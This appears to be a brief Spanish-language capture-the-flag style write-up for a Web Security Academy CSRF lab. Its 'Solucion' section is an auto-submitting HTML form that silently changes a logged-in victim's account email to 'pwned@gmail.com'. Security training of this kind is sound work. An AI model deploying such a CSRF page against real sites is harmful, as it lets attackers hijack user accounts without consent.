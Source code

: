 ## Objetivo:

![[Pasted image 20240515223118.png]]


## Solucion:

![[Pasted image 20240515225248.png]]

```
<body>

<form action="https://0a9e008a032cf45183a6e28f00db0054.web-security-academy.net/my-account/change-email" method="get">

<input type="hidden" name="email" value="pwned@gmail.com" />

</form>

<script>

document.forms[0].submit()

</script>

</body>
```
